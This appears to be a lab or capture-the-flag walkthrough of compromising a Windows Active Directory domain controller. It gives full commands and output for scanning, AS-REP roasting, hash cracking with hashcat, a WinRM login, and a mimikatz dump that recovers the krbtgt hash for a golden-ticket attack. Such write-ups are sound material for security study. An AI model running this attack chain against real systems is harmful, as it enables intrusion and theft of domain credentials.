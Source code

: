 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=YO3y1KRcbi0)|[Download](https://drive.google.com/file/d/1UfnW8X2qzMGTAGK1N4D9_iWHUVYuEmLD/view)|

<details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.39
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-08 14:18 +08
Nmap scan report for 10.0.88.39
Host is up (0.0029s latency).
Not shown: 65507 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 01-10-22  02:39AM       <DIR>          Dinnie.Nikki
| 01-10-22  02:40AM       <DIR>          Dulci.Alanah
| 01-10-22  02:40AM       <DIR>          Lem.Emmalyn
| 01-10-22  02:40AM       <DIR>          Onida.Florence
| 01-10-22  02:40AM       <DIR>          Rakel.Bekki
|_01-10-22  02:35AM       <DIR>          vagrant
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-08 06:18:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WINDOMAIN)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql         MySQL (unauthorized)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-12-08T06:19:44+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.windomain.local
| Not valid before: 2022-12-07T06:15:53
|_Not valid after:  2023-06-08T06:15:53
| rdp-ntlm-info:
|   Target_Name: WINDOMAIN
|   NetBIOS_Domain_Name: WINDOMAIN
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: windomain.local
|   DNS_Computer_Name: dc.windomain.local
|   DNS_Tree_Name: windomain.local
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-08T06:19:35+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
⋮
```

</details>

# 2. Finding a way in

The nmap scan found a FTP service with anonymous login allowed, there isn't any files in FTP at all, but this provides a list of usernames

☝️ **Usernames are important!** Although the FTP service had no data, having a list of usernames means you can use it to enumerate something else

## 2.1. Try AS-REP Roasting

The other ports such as `53`, `88`, `389`, `636`, `3268`, `3269`, etc shows that this is a Domain Controller and the domain name is `windomain.local`

Let's use the list of usernames to do AS-REP Roasting

### 2.1.1. Use kerbrute to find users with preauthentication disabled

```console
┌──(root㉿kali)-[~]
└─# kerbrute -users users.txt -domain windomain.local -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Stupendous (Expired password) => Dinnie.Nikki:
[*] Valid user => Dulci.Alanah
[*] Valid user => Lem.Emmalyn
[*] Valid user => Onida.Florence
[*] Valid user => Rakel.Bekki
[*] Valid user => vagrant [NOT PREAUTH]
```

### 2.1.2. Use GetNPUsers.py to get password hash

```console
┌──(root㉿kali)-[~]
└─# impacket-GetNPUsers windomain.local/vagrant -no-pass -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for vagrant
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:871beef48a411f845ebb1d8b04dd9c13$adbbc87ab91d710e562fff2d00b7936613250dad5f0bb468e77b3ef4264d6b3930556b866f4468a8243c3866e2757ced577870144b2afd4746a7fc90fcaf347807e5c50d34285528d3fa71abcdf46994dfa0c26831d0486d8b6cdd1bb8c33208e5eaa246ed75eba33d0f78a533b2760f5a230075a1f7edf73c6742737026a19e393ed411839693fb32dacf7323727214c84c5f905a9c8dea3eccafe0435454ace2a995bf017080883ae04d188dfe3dde47ef1c4c59281879f8b184b61a05278e2fd7bcba94239738c72ad27dfdf0a78efad21663d48b5cbbf7ea51848d0df834adc481c77791200f25947906389d5bfd3907
```

### 2.1.3. Use hashcat to crack the hash

```console
┌──(root㉿kali)-[~]
└─# hashcat -m 18200 as-rep.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
⋮
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:•••hash-truncated•••:vagrant

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
⋮
Started: Thu Dec  8 14:36:19 2022
Stopped: Thu Dec  8 14:36:48 2022
```

### 2.1.4. Connect to target

```console
┌──(root㉿kali)-[~]
└─# evil-winrm -i 10.0.88.39 -u vagrant -p vagrant

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\vagrant\Documents> whoami
windomain\vagrant
*Evil-WinRM* PS C:\Users\vagrant\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
*Evil-WinRM* PS C:\Users\vagrant\Documents> net user vagrant /domain
User name                    vagrant
Full Name                    Vagrant
Comment                      Vagrant User
User's comment
Country/region code          001 (United States)
Account active               Yes
Account expires              Never

Password last set            8/3/2020 5:44:01 AM
Password expires             Never
Password changeable          8/4/2020 5:44:01 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/8/2022 7:30:25 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *Domain Users
The command completed successfully.
```

# 3. Further Active Directory attack

The `vagrant` user is not a member of Domain Admins, but is a member of `BUILTIN\Administrators` - this should be sufficient rights to elevate to `SYSTEM` and dump all the password hashes in the domain controller

```cmd
*Evil-WinRM* PS C:\Users\vagrant\Documents> .\mimikatz 'privilege::debug' 'token::elevate' 'lsadump::lsa /patch' exit
⋮
mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

672     {0;000003e7} 1 D 44054          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;002c4e90} 0 D 3024299     WINDOMAIN\vagrant       S-1-5-21-1544547503-3534482728-1687236716-1000  (10g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 3558907     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::lsa /patch
Domain : WINDOMAIN / S-1-5-21-1544547503-3534482728-1687236716
⋮
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 0421d518b013747f02710907bcf91afa
⋮
mimikatz(commandline) # exit
Bye!
```

Indeed we got the `krbtgt` user hash, we can use it to perform the [attacking the Active Directory](../../attacking-active-directory.md#5-golden-ticket) to do anything we want in the domain now
